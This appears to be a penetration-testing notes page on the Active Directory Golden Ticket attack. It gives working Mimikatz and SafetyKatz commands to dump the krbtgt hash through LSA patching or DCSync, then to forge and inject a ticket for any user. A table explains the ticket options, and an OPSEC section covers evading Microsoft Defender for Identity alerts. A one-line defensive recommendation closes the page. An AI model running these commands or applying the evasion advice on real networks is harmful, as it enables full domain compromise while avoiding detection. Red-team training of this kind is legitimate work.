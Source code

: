 # Golden Ticket

Golden ticket is signed and encrypted by the **hash of krbtgt account** which makes it a **valid TGT ticket**.

Using **Golden ticket** can be used to **impersonate any user with any privileges**.

pre-reqs:

* krbtgt hash

## Validity

* As long as the krbtgt password isn't changed - Typically in bigger orgs it would be around 1 year.

## Obtain krbtgt hash

There are multiple ways to get the krbtgt account hash

```powershell
# Execute on DC as Domain Admin
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

# DCSync to get AES keys
# Needs Domain admin or Replication Rights
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

## Create The Ticket

{% hint style="warning" %}
Mostly use `/aes256` as the **MDI looks for Encryption downgrades and flags them as malicious**
{% endhint %}

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<user_sid> /aes256:<aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

dir \\dcorp-dc\c$ # check if worked
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt or /ticket</td><td>ptt: inject ticket to current process<br>ticket: saves ticket to a file</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes.<br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes. (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

{% hint style="danger" %}
NOTE: It is always recommended to purge the golden ticket once we are done with it as if not this might raise an alarm by MDI (Microsoft Defender for Identity)
{% endhint %}

## OPSEC

When the attack is executed, it is possible that the MDI can raise the below 3 alarms

* Time anomaly - The created golden ticket is valid for a very long period of time (10 years), so counter this with startoffset, endin, renewmax attributes
* DC Sync - An alert that says a DC Sync attack was executed to get krbtgt hash
* Encryption Downgrade - That lower level encryption is used while creating the ticket, hence it is countered with using /aes256
* A high noise attack - Use it at the end

## Recommendation

It is recommended to change the password of the krbtgt account twice as password history is maintained for the account
